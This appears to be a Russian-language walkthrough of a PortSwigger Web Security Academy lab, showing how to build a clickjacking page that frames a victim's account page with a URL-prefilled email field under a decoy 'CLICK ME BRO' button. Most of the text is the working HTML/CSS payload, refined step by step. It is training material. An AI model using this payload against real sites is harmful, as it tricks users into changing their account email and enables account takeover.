 Залогинимся под `wiener:peter`

изменим почту на `change@me.com `
и нажмем `Update email`


Далее, если мы скрафтим в поисковой строке `my-account?email=new@email.com`, то у нас получится предзаполненное поле `email`
```
https://0aa300a804940a2a80758a5f00c80040.web-security-academy.net/my-account?email=new@email.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/1.png)

Соответсвенно, нам необходимо будет создать фейковую кнопку для обновления Email, на которую уже нажмет наша жертва, а необходимый email мы уже знаем как подставить

Аналогично прошлой лабораторной работе воспользуемся `iframe`

Перейдем в `Exploit server` и в поле `Body` введем
```
<iframe src="https://0aa300a804940a2a80758a5f00c80040.web-security-academy.net/my-account?email=new@email.com"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/2.png)
Отлично, `iframe` работает, только немного не в тех размерах.
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/3.png)

Добавим стилей, чтобы получить полноразмерную страницу
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
</style>

<iframe src="https://0aa300a804940a2a80758a5f00c80040.web-security-academy.net/my-account?email=new@email.com"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/4.png)
и увидим что у нас получается предзаполненное поле. Остается добавить кнопку и правильно ее разместить над кнопкой `Update email`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/5.png)

Добавим фейковую кнопку `CLICK ME BRO` через `div` и с помощью стилей опустим ее на уровень кнопки `Update email`
```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div{
        position:absolute;
        top:460px;
        left: 50px;
        z-index: 1;
    }
</style>

<div>CLICK ME BRO</div>
<iframe src="https://0aa300a804940a2a80758a5f00c80040.web-security-academy.net/my-account?email=new@email.com"></iframe>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/6.png)

Отлично, у нас получилось. Играть в пиксель перфект смысла нет, и так сойдет
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/2.%20Clickjacking%20with%20form%20input%20data%20prefilled%20from%20a%20URL%20parameter/pics%20for%20walkthrough/7.png)


и установим `opacity` исходной страницы сразу в `0.00001`, чтобы в итоге у нас получилось 

```
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div{
        position:absolute;
        top:460px;
        left: 50px;
        z-index: 1;
    }
</style>

<div>CLICK ME BRO</div>
<iframe src="https://0aa300a804940a2a80758a5f00c80040.web-security-academy.net/my-account?email=new@email.com"></iframe>
```

нажмем `Store` -> `Deliver exploit to victim` и получим уведомление об успешно выполненной лабораторной работе
